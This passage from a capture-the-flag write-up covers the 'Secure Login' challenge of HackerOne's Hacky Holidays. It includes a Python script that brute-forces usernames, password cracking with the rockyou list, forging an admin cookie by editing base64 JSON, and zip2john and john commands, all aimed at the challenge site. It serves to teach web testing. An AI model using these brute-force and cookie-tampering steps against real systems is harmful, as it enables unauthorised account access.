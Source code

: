 ```
"address":{
     "line_1":"The Grinch",
     "line_2":"The Cave",
     "line_3":"Mount Crumpit",
     "line_4":"Whoville"
     },
"flag":"flag{972e7072-b1b6-4bf7-b825-a912d3fd38d6}"
}
```

Challenge 5: Secure Login
-------------------------
Description: Try and find a way past the login page to get to the secret area.
I got a login page on browsing [https://hackyholidays.h1ctf.com/secure-login][8], I tried to enter some default credentials like admin and password but got an error saying “Invalid Username”, here webpage was telling me which username is valid and which is invalid, so I can enumerate valid usernames by brute forcing. I have written a python script to do it (We can use tools like hydra but I like writing code for it).
[8]: https://hackyholidays.h1ctf.com/secure-login          "https://hackyholidays.h1ctf.com/secure-login"
```javascript
import requests
	 
url = "https://hackyholidays.h1ctf.com/secure-login"
users = open("/opt/SecLists/Usernames/Names/names.txt","r")
header= { "Content-Type": "application/x-www-form-urlencoded" }
	 
for line in users:
    user = line.rstrip()
    data = f"username={user}&password=admin"
    print(f"Trying : {user}       ",end='\r', flush=True)
    r = requests.post(url, data=data, headers=header)
    if "Invalid Username" not in r.text:
        print(f“Found Username : {user}”)
        break
```
Description about code: I am importing a requests module and defining variable for url, creating an object of file with list of usernames in read mode and defining `Content-Type` header, going through each line in wordlist, stripping newline and spaces from line and defining what data to send (changing username with each iteration and keeping random password) and I send a POST request to given url. If I find string other than `Invalid Username` in response indicates a valid username, so I print the username and break (I can also find other usernames if I do not break here).
Got a valid username as `access` and when giving some random password got an error `Invalid Password` so repeat same steps for password, using `rockyou.txt` as wordlist for password and got password as `computer`.
Using `access` and `computer` to login and got a page saying `No Files To Download` and also there was a new cookie with key securelogin which is base64 encoded.
`eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjpmYWxzZX0=`
I base64 decoded it and got `{"cookie":"1b5e5f2c9d58a30af4e16a71a45d0172","admin":false}`, admin value is false which is set by webpage, changed it to true, base64 encoded again and replaced the cookie and got following page.
{F1132317}
Downloaded the file and found that it was password protected so I used john the ripper tool to crack the password.
```
┌─[✗]─[shubham@parrot]─[~/hackyholidays/securelogin]
└──╼ $zip2john my_secure_files_not_for_you.zip > hash
ver 2.0 efh 5455 efh 7875 my_secure_files_not_for_you.zip/xxx.png PKZIP Encr: 2b chk, TS_chk, cmplen=215105, decmplen=215058, crc=277DEE70
ver 1.0 efh 5455 efh 7875 my_secure_files_not_for_you.zip/flag.txt PKZIP Encr: 2b chk, TS_chk, cmplen=55, decmplen=43, crc=9DE7C581
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
┌─[shubham@parrot]─[~/hackyholidays/securelogin]
└──╼ $john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

[1]: https://hackerone.com/h1-ctf         "https://hackerone.com/h1-ctf"
[2]: https://hackyholidays.h1ctf.com/robots.txt       "https://hackyholidays.h1ctf.com/robots.txt"
[3]: https://hackyholidays.h1ctf.com/s3cr3t-ar3a "https://hackyholidays.h1ctf.com/s3cr3t-ar3a"
[5]: https://hackyholidays.h1ctf.com/swag-shop     "https://hackyholidays.h1ctf.com/swag-shop"
[6]: https://hackyholidays.h1ctf.com/swag-shop/api/sessions             "https://hackyholidays.h1ctf.com/swag-shop/api/sessions"
[7]: https://hackyholidays.h1ctf.com/swag-shop/api/user?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043    "/swag-shop/api/user?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043"
[8]: https://hackyholidays.h1ctf.com/my-diary/         "https://hackyholidays.h1ctf.com/my-diary/"
[9]: https://hackyholidays.h1ctf.com/my-diary/?template=index.php       "index.php"
[10]: https://hackyholidays.h1ctf.com/my-diary/?template=secretasecretaadmin.phpdmin.phpdmin.php    "https://hackyholidays.h1ctf.com/my-diary/?template=secretasecretaadmin.phpdmin.phpdmin.php"
[11]: https://hackyholidays.h1ctf.com/hate-mail-generator   "https://hackyholidays.h1ctf.com/hate-mail-generator"
[12]: https://hackyholidays.h1ctf.com/hate-mail-generator/templates/      "https://hackyholidays.h1ctf.com/hate-mail-generator/templates/"
[14]: https://github.com/Grinch-Networks/forum                 "https://github.com/Grinch-Networks/forum"
[13]: https://hackyholidays.h1ctf.com/forum              "https://hackyholidays.h1ctf.com/forum"
[15]:  https://hackyholidays.h1ctf.com/forum/phpmyadmin    "phpmyadmin"
[16]: https://hashes.org/search.php       "hashes.org"
[17]: https://hackyholidays.h1ctf.com/forum/login          "login"
[18]: https://hackyholidays.h1ctf.com/evil-quiz           "https://hackyholidays.h1ctf.com/evil-quiz"
[19]: https://pentest.blog/exploiting-second-order-sqli-flaws-by-using-burp-custom-sqlmap-tamper/   "this"
[20]: https://hackyholidays.h1ctf.com/evil-quiz/admin       "admin"
[21]: https://hackyholidays.h1ctf.com/signup-manager/         "https://hackyholidays.h1ctf.com/signup-manager/"
[22]: https://hackyholidays.h1ctf.com/signup-manager/README.md   "https://hackyholidays.h1ctf.com/signup-manager/README.md"
[23]: https://hackyholidays.h1ctf.com/signup-manager/signupmanager.zip     "https://hackyholidays.h1ctf.com/signup-manager/signupmanager.zip" 
[24]: https://www.php.net/manual/en/function.is-numeric.php        "here"
[25]: https://www.php.net/manual/en/language.types.float.php      "number"
[26]: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59            "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59"
[27]: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/api       "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/api"
[28]: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k    "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k"
[29]: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/uploads/13d74554c30e1069714a5a9edda8c94d.jpg "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/uploads/13d74554c30e1069714a5a9edda8c94d.jpg"
[30]: https://captnemo.in/blog/2012/06/09/nested-sql-injections/   "Here"
[31]: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/api      "api"
[32]: https://github.blog/2015-11-03-like-injection/      "like"
[32]: https://hackyholidays.h1ctf.com/attack-box/login     "attack-box"
[33]: https://en.wikipedia.org/wiki/DNS_rebinding   "DNS-rebinding"
[34]: https://github.com/taviso/rbndr    "https://github.com/taviso/rbndr"